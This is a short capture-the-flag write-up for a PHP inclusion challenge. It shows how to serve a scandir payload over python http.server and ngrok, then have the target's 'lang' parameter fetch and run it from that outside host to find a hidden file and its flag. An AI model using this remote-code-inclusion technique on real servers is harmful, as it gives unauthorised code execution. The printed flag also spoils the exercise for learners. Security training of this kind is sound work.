 # lfi4

## What it is

Same as the other lfi, but we don't know what file the flag is in.

## Solution

We need to find the path to the file the flag is in.

We can do that by executing code from a remote file ([source](https://www.php.net/manual/en/features.remote-files.php)):

### Serving the remote file

The remote code will print the files in the server's working directory:
```php
echo implode(", ", scandir("."))
```

We can make a simple http server with python3
```
python3 -m http.server 8080
```
```
$ curl localhost:8080/remote.php 
<?php
        echo implode(", ", scandir("."))
?>
```

To make it available to the server we can use [ngrok](https://ngrok.com/):
```
ngrok http 8080
```

### Executing the remote code

Url to execute the remote code:
```
https://remote.secu-web.blackfoot.dev/?lang=https://d84a-163-5-23-68.eu.ngrok.io/remote.php
```

This appears on the page:
```
., .., hidden_file.html, index.php 
```

At https://remote.secu-web.blackfoot.dev/hidden_file.html we have:
```
Congratz, you can validate with ZOB{sh0uld_h4v3_h1dd3n_b3773r}
```

flag: ```ZOB{sh0uld_h4v3_h1dd3n_b3773r}```
